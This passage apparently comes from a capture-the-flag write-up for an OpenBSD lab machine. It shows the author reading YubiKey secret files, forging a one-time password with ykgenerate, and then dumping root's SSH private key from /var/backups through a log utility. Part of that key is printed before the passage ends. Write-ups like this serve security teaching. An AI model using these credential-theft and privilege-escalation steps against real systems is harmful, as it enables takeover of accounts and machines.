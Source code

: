 ```bash
:auth-ssh=yubikey:\
```

We can read the yubikey configuration files:

- /var/db/yubikey/root.ctr:

```bash
985089
```

- /var/db/yubikey/root.key

```bash
6bf9a26475388ce998988b67eaa2ea87
```

- /var/db/yubikey/root.uid

```bash
a4ce1128bde4
```

We download the yubikey program:

[developers.yubico.com](https://developers.yubico.com/yubico-c/Releases/libyubikey-1.13.tar.gz)

And we configure and build our own OTP.

```bash
❯ ./configure
❯ make check
❯ sudo make install
❯ ./ykgenerate 6bf9a26475388ce998988b67eaa2ea87 a4ce1128bde4 $(printf "%x" 985089 | cut -c1-4) c0a8 00 10
bnlnedbhdctgbbvhljlhhekcjflnlihf
```

```bash
❯ ssh root@$target                                
root@10.10.10.232: Permission denied (publickey).
```

But, logging in as root needs a private key.

## Changelist

Searching about OpenBSD and its possible attack vectors I stepped on the documentation of Changelist for OpenBSD. It said that if something is backed up automatically it should be at /var/backups/, so maybe a id_rsa key from root is there too.

We check and find the following:

```bash
❯ /usr/local/bin/log /var/backups/root_.ssh_id_rsa.current
  -----BEGIN OPENSSH PRIVATE KEY-----
  b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
  NhAAAAAwEAAQAAAYEA8kTcUuEP05YI+m24YdS3WLOuYAhGt9SywnPrBTcmT3t0iZFccrHc
  2KmIttQRLyKOdaYiemBQmno92butoK2wkL3CAHUuPEyHVAaNsGe3UdxBCFSRZNHNLyYCMh
  3AWj3gYLuLniZ2l6bZOSbnifkEHjCcgy9JSGutiX+umfD11wWQyDJy2QtCHywQrKM8m1/0
  5+4xCqtCgveN/FrcdrTzodAHTNoCNTgzzkKrKhcah/nLBWp1cv30z6kPKBKx/sZ5tHX0u1
  69Op6JqWelCu+qZViBy/99BDVoaRFBkolcgavhAIkV9MnUrMXRsHAucpo+nA5K4j7vwWLG
  TzLOzrBGA3ZDP7w2GD7KtH070CctcjXfx7fcmhPmQDBEg4chXRBDPWzGyvKr7TIEMNVtjI
  Ug4kYNJEfSef2aWslSfi7syVUHkfvUjYnW6f2hHprHUvMtVBHPvWQxcRnxvyHuzaXetSNH
  ROva0OpGPaqpk9IOseue7Qa1+/PKxD4j87eCdzIpAAAFkDo2gjg6NoI4AAAAB3NzaC1yc2
  EAAAGBAPJE3FLhD9OWCPptuGHUt1izrmAIRrfUssJz6wU3Jk97dImRXHKx3NipiLbUES8i
  jnWmInpgUJp6Pdm7raCtsJC9wgB1LjxMh1QGjbBnt1HcQQhUkWTRzS8mAjIdwFo94GC7i5
  4mdpem2Tkm54n5BB4wnIMvSUhrrYl/rpnw9dcFkMgyctkLQh8sEKyjPJtf9OfuMQqrQoL3
  jfxa3Ha086HQB0zaAjU4M85CqyoXGof5ywVqdXL99M+pDygSsf7GebR19LtevTqeialnpQ
  rvqmVYgcv/fQQ1aGkRQZKJXIGr4QCJFfTJ1KzF0bBwLnKaPpwOSuI+78Fixk8yzs6wRgN2
  Qz+8Nhg+yrR9O9AnLXI138e33JoT5kAwRIOHIV0QQz1sxsryq+0yBDDVbYyFIOJGDSRH0n
  n9mlrJUn4u7MlVB5H71I2J1un9oR6ax1LzLVQRz71kMXEZ8b8h7s2l3rUjR0Tr2tDqRj2q
```